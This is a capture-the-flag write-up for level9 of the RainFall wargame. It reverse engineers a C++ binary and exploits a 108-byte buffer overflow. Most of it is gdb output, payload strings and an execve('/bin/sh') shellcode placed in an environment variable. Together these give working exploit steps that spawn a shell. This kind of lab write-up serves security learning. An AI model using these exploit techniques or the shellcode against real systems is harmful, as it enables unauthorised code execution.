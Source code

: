 # Write up

First of all, we have lots of strange functions which we assume be C++ after some research, this concerns some of those calls (GOT) :
```
08049b80 R_386_COPY        _ZTVN10__cxxabiv117__class_type_infoE
08049b58 R_386_JUMP_SLOT   _ZNSt8ios_base4InitC1Ev
08049b64 R_386_JUMP_SLOT   _ZNSt8ios_base4InitD1Ev
08049b70 R_386_JUMP_SLOT   _Znwj
```
We have first to understand what those functions do.
We can demangle it using the objdump `-C` flag.
```
objdump -M intel -d bin9 -C > asm9_intel_unm.txt
```
Which give us a dissassembled file with clear C++ symbols names.

While reverse enginering the program we tried to check the exit codes :
```
level9@RainFall:~$ ./level9 e e
level9@RainFall:~$ echo $?
11
level9@RainFall:~$ ./level9
level9@RainFall:~$ echo $?
1
```
The program exits with the code 1 with no arguments, as expected.
But with argument it exits with the exit code 11, which help us to understand the code better.
After translation, we get an unprotected buffer with a size of 108, we try with a dummy payload :
```
level9@RainFall:~$ ./level9 $(python -c "print 'A' * 108")
level9@RainFall:~$ ./level9 $(python -c "print 'A' * 109")
Segmentation fault (core dumped)
```
Great, we can try, like the level2 exercice to execute the ret2libc exploit, however we have only a 4 byte range to exploit the overflow here.
So our payload will have to be inside the buffer, which as saved EIP an in-buffer address.
We get it using gdb :
```
level9@RainFall:~$ gdb level9
(gdb) break* 0x8048738
(gdb) run $(python -c "print 'A' * 108")
(gdb) x/40xw $eax
0x804a00c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a01c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a02c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a03c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a04c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a05c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a06c:      0x41414141      0x41414141      0x41414141      0x08048848
0x804a07c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a08c:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a09c:      0x00000000      0x00000000      0x00000000      0x00000000
```
By checking the memcpy result in the eax register, we can notice our A padding, and the `0x08048848` address which was set at the saved EIP we found in the source code.
The base address is `0x804a00c`.
We build then a new payload :
```
# eax memory segment here
0x804a00c:      0xb7d86060      0x4c44494c      0xb7ea7c58      0x41414141
0x804a01c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a02c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a03c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a04c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a05c:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a06c:      0x41414141      0x41414141      0x41414141      0x0804a00c
0x804a07c:      0x00000000      0x00000000      0x00000000      0x00000000
# Payload
./level9 $(python -c "print '\x60\x60\xd8\xb7' + 'LIDL' + '\x58\x7c\xea\xb7' + 'A' * 96 + '\x0c\xa0\x04\x08'")
sh: 1:
       �: not found
```
Which seems to execute the `/bin/sh` command, however, even with piping from cat -, it seems that we can't keep our shell.
To avoid this issue, we will need a `/bin/sh\0` string :
```
export LIDL="/bin/sh\0"
echo 'void main(){printf("%p\n", getenv("LIDL"));}' > /tmp/lidl9.c; gcc /tmp/lidl9.c -o /tmp/lidl9; chmod 777 /tmp/lidl9; /tmp/lidl9 # 0xbfffff35 here
# New payload
./level9 $(python -c "print '\x60\x60\xd8\xb7' + 'LIDL' + '\x35\xff\xff\xbf' + 'A' * 96 + '\x0c\xa0\x04\x08'")
```
However, still our `not found` error, which exposed a mistake of mine :
```
level9@RainFall:~$ ./level9 $(python -c "print '\x60\x60\xd8\xb7' + 'LIDL' + '\x36\xff\xff\xaf' + 'A' * 96 + '\x0c\xa0\x04\x08'") 2>&1 | hd
00000000  73 68 3a 20 31 3a 20 [0c  a0 04 08] 3a 20 6e 6f 74  |sh: 1: ....: not|
00000010  20 66 6f 75 6e 64 0a                              | found.|
00000017
```
The 4 chars highlighted here are our (overwriten) saved EIP address, which is totaly normal since that even if we execute a system function, we're still in the setAnnotation stack frame.
 
We saw before that we can get the address of an environnement variable, so we will store in the environnement a generic shell code which opens a shell and get its address :
```
export LIDLCODE=$(python -c 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
echo 'void main(){printf("%p\n", getenv("LIDLCODE"));}' > /tmp/lidl9.c; gcc /tmp/lidl9.c -o /tmp/lidl9; chmod 777 /tmp/lidl9; /tmp/lidl9 # 0xbfffff94 here
# Final payload
./level9 $(python -c "print '\x98\xff\xff\xbf' +  'A' * 104 + '\x0c\xa0\x04\x08'") # 4 bytes farther
```
Which gives us our flag, Hooray !
Bonus starts at the next episode.

## Sources

https://beta.hackndo.com/buffer-overflow/ (Generic shellcode found here)
https://stackoverflow.com/questions/47890484/undefined-symbol-during-dlopen
http://repository.root-me.org/Reverse%20Engineering/EN%20-%20Reversing%20C++%20-%20Blackhat%20-%20Yason%20Sabanal%20-%20paper.pdf
https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int